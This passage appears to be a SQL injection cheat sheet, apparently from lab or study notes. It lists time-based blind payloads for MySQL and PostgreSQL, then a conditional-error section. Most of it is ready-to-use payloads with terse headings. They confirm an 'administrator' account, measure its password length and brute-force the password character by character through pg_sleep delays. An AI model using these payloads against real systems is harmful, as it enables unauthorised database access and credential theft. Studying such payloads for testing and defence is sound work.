 - **MySQL**

    ```html
    ' AND sleep(5)-- -
    ```

- **PostgreSQL**

    ```html
    '||pg_sleep(10)--
    '; SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
    '; SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--
    ```

### 2. Check if Content Value Exists

```txt
'; SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

If so, determine the password length

```txt
'; SELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
'; SELECT CASE WHEN (username='administrator' AND LENGTH(password)>2) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
...
'; SELECT CASE WHEN (username='administrator' AND LENGTH(password)=8) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

Brute force password character

```txt
'; SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,1,1)='$a$') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
'; SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,2,1)='$a$') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
...
'; SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,8,1)='$a$') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

<br /><br />

## Conditional Error

### 1. First Check

```txt
'
''
'||(SELECT '')||'
'||(SELECT '' FROM dual)||'
'||(SELECT '' FROM fake_table)||'
'||(SELECT '' FROM users WHERE ROWNUM = 1||'
'|| (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
'|| (SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```
